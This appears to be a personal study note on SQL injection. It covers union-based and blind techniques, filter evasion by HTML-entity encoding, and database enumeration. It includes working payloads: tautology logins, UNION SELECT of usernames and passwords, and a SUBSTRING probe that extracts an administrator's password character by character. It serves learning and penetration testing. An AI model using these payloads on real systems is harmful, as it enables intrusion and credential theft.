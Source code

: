 
### General Notes

> Unauthorized user take control over SQL statements used by a web application.
> To explot SQL Injections, first find the injection point, and then craft a payload to take control over a query.
> Try TRUE and FALSE injections to check which one works.

> SQL queries inside web applications must connect to the database, submit the query, and then retrieve the results.

> Can use [[SQLMap]] to automate this test.
> [SQLi Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

---

### Finding SQL Injections

>Can be used using [[Burp Suite]]'s web vulnerability scanner.
>The most common other locations where SQL injection arises are:
- In `UPDATE` statements, within the updated values or the `WHERE` clause.
- In `INSERT` statements, within the inserted values.
- In `SELECT` statements, within the table or column name.
- In `SELECT` statements, within the `ORDER BY` clause.

> Test all user inputs.
> Test these areas: 
* GET parameters.
* POST parameters.  //Use [[Burp Suite]] proxy
* [[HTTP]] headers.

---

#### Union Based Injections

> The queries must return the same amount of columns as the original one.
> The queries must return data of the same or allowed data type as the original one.
> Getting a 200 response code indicates the right number of columns.

##### Number of Columns using Added `NULL,`
>  When the number of nulls matches the number of columns, an additional row of data will be returned in the result set, containing either the word NULL or an empty string.
```
UNION SELECT NULL
```
> For oracle, need to add FROM for every SELECT. Use the built in DUAL table.

##### Number of Columns using `ORDER BY`
> Keep changing the `ORDER BY` index until an error is recieved.


##### Checking the Data Type of a column
> Having known the number of columns, we can replace the `NULL` with a string/number/data-type and check the output.
> If it succeeds, then we know the data type of that column.
> We can then get exact data we want if we replace that data in the correct column field. It will be produced in an extra row.

---

### Blind SQL Injections

> Application doesn't return the results of the query or details of errors in its response.

> To detect a blind vulnerability:
1. Change logic of query to trigger a detectable difference. Such as boolean logic or generate erros such as dividing by zero.
2. Trigger a time delay using boolean injection to detect when the delay occurs in which boolean value.
3. Trigger an out-of-band network interaction Out-of-band application security testing (OAST). For instance placing the data retrieved in a [[Domain Name System (DNS)]] lookup for a domain that you control.


##### Tracking Cookies
> Some applications use tracking cookies to gather data about usage and users.
> They are processed by a SQL query such as: 
```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```
> The behaviour of the website can then be used to determine how the injection is vulnerable.
> Triggering different responses through false and true conditions.

---

### Payloads

> Try injecting: 
* String terminators: `'` and `"`.
* Other SQL commands: `SELECT`, `UNION`.
* SQL comments: `--` or `#`. For MySQL and Microsoft, add a space then `-` .

##### Example Payloads
> `' OR 'a'='a ` .
> `' UNION SELECT Username, Password FROM Accounts/users WHERE 'a'='a `.
> `' UNION SELECT user(); -- - `. // comment then space then `-` to remove remainder of the query.
> `2' AND 1=1; -- - `.

---

### Different Inputs and Obfuscating Attacks

> Obfuscating is using [[Web Encoding]] to perform attacks that could be blocked using web application [[Firewall]]s.
> Some websites take JSON or XML in their queries to ask the database.

> For XML use `hex-entities` encoding in [[Burp Suite]]'s hackvertor extension to bypass.

> Can encode some letters of the query to bypass these defense mechanisms.
```
SELECT * FROM information_schema.tables
&#x53;ELECT * FROM information_schema.tables
```
> This is encoding using an HTML entity of a hex.
> This will be decoded first server side, and then passed to the SQL interpreter that communicates with the database.

---

### Enumerating Database

> Get the database information and version.
```
SELECT BANNER FROM v$version;    //oracle
SELECT version FROM v$instance   //oracle
SELECT @@version  //microsoft and MySQL
SELECT version() // PostgreSQL
```

> Getting the tables and their columns. Works on most databases.
```
SELECT * FROM information_schema.tables;
```


##### Using Information_schema

> Can use the `information_schema` database present in most systems (NOT IN ORACLE) to list the tables
```
SELECT * FROM information_schema.tables 
```
> The elements in this database are:
* TABLE_NAME
* TABLE_CATALOG
* TABLE_SCHEMA
* TABLE_TYPE

> Can use one of the tables output in the previous command to display the columns and data types of that table
```
SELECT * FROM information_schema.columns WHERE table_name= <>
```
> The elements in this database are same as above and:
* COLUMN_NAME
* DATA_TYPE

##### Using Information_schema Equivalent For Oracle

> List all tables using `all_tables`
```
SELECT * FROM all_tables
```
* TABLE_NAME

> List columns using `all_tab_columns`
```
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```
* COLUMN_NAME

---

### Extra Info

> Commands to identify first character of username.
```
select user(); // returns the current user
select substring(string,position,length); //substring from the position and takes length many chrs.
example: select substring(user(),1,1)='r'; // checks if first letter from user is r.
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```

> To concatenate results into one column
* Oracle and PostgreSQL
```
SELECT username || ':' || password FROM users
```
* Microsoft
```
SELECT username + password FROM users
```
* MySQL (space)
```
SELECT username password FROM users
```

---
